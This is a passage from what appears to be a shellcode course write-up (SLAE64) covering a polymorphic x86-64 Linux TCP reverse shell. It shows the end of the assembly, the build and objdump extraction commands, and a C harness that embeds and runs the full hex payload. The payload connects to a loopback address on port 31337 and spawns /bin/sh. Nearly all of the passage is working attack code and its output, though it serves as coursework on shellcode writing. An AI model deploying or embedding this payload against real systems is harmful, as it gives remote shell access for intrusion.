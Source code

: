 ```nasm
	push rdi
	push rsp
	pop rdi
	
	push 0x3b
	pop rax

	syscall		; exec execve syscall
```

The comments are self-explanatory for the functionality of this program, which is the same as the original.

Now the changes, that were made in the polymorphic version, are explained. Basically, some instructions that were using the `stack` were modified to use `registers` and some unnecessary instructions were removed.

### Testing the tcpreverseshell polymorphic shellcode

Now we need to compile `tcpreverseshell.nasm` with the bash script `compile.sh` and extract the shellcode from the generated executable with `objdump` one-liner.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/3_tcpreverseshell$ ./compile.sh tcpreverseshell
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/3_tcpreverseshell$ objdump -d ./tcpreverseshell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x48\x31\xff\x48\x31\xf6\x48\xf7\xe6\x48\x83\xc7\x02\x48\x83\xc6\x01\x48\x83\xc2\x06\x48\x83\xc0\x29\x0f\x05\x48\x89\xc7\x48\x31\xf6\x56\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\x7f\x01\x01\x01\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xd2\x48\x31\xf6\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"
```

After that, we modify the `shellcode.c` with the shellcode from `objdump`.

The whole `C` program is the following:

```c
#include <stdio.h> 
#include <string.h> 

unsigned char code[] = \ 
"\x48\x31\xff\x48\x31\xf6\x48\xf7\xe6\x48\x83\xc7\x02\x48\x83\xc6\x01\x48\x83\xc2\x06\x48\x83\xc0\x29\x0f\x05\x48\x89\xc7\x48\x31\xf6\x56\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x7a\x69\xc7\x44\x24\x04\x7f\x01\x01\x01\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xd2\x48\x31\xf6\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05";

main() 
{ 
	printf("Shellcode Length: %d\n", strlen(code)); 
	
	int (*ret)() = (int(*)())code; 
	
	ret(); 
}
```

